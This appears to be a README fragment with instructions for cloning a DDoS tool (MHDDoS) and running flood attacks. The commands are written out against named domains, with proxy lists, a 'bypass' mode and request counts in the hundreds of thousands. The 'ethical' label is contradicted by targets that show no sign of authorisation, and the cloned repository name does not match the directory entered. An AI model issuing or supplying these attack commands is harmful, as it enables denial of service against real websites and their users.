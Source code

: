 


**Clone and Install Script**

```shell script
git clone https://github.com/MatrixTM/MHDDoS.git
cd ethical-ddos
pip install -r requirements.txt
```
**To start the attack from Linux-Kali**
The bypass
```shell script
cd ethical-ddos
python3 start.py bypass https://paykey.com/  1 101 sockws5.txt 10970 3600 true
```
**Most Effecient to attack from MAC-OS**
```
--debug: for more info and details about the attack
```
```shell script
cd ethical-ddos
python3 asyncio_http.py --urls  https://www.tugger.info/  --total_requests 103002 --debug
```

---

